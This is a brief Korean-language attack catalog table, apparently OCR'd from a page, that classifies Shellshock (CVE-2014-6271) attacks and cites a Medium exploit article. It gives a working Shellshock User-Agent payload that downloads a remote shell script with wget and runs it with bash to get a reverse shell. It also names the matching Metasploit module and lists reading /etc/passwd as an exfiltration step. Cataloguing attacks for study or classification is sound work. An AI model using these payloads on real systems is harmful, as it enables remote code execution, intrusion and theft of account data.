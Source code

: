<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>Reverse Shell Deployment</td>
      <td><pre><code>User-Agent: () { :; }; /bin/bash -c 'wget http://target.example.com/shell.sh -O /tmp/shell.sh; bash /tmp/shell.sh'</code></pre></td>
      <td>wget과 bash를 조합해 원격 스크립트를 다운로드·실행하거나, Metasploit의 <code>exploit/multi/http/apache_mod_cgi_bash_env_exec</code> 모듈을 이용해 역쉘을 획득한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exfiltration

<table>
  <thead>
    <tr><th>공격 이름</th><th>예시 페이로드</th><th>설명</th><th>출처</th></tr>
  </thead>
  <tbody>
    <tr>
      <td>Data Exfiltration via RCE Shell</td>
      <td><pre><code>cat /etc/passwd</code></pre></td>
      <td>획득한 쉘에서 시스템 파일(<code>cat /etc/passwd</code>) 등을 읽어내어 권한 상승 정보나 사용자 계정 정보를 탈취한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

---

## 분류에 해당하는 문서
- [1] https://yashpawar1199.medium.com/exploiting-the-shellshock-cve-2014-6271-vulnerability-043514bea7b8  

